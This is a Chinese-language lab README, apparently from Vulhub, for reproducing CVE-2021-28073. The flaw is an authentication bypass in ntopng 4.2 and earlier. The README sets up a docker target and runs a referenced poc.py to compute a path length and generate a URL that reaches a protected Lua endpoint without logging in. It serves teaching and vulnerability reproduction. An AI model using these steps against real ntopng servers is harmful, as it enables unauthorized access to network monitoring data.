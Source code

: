 # ntopng权限绕过漏洞（CVE-2021-28073）

ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

参考链接：

- http://noahblog.360.cn/ntopng-multiple-vulnerabilities/

## 漏洞环境

执行如下命令启动ntopng：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。

## 漏洞复现

根据参考链接中的方法，编写一个简单的[poc.py](poc.py)。首先，计算出ntopng lua目录的长度：

```
python poc.py --url http://your-ip:3000/ baselength
```

![](1.png)

可见，Vulhub靶场中的长度为36。

然后，找到我们想要越权访问的页面或接口，比如`/lua/find_prefs.lua`，正常访问时会302跳转到登录页面，无权限。

使用POC生成越权访问URL：

```
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua
```

![](2.png)

访问这个URL，发现可以越权返回正常信息：

![](3.png)

后续更深入的利用方法，可以自行修改poc.py利用。

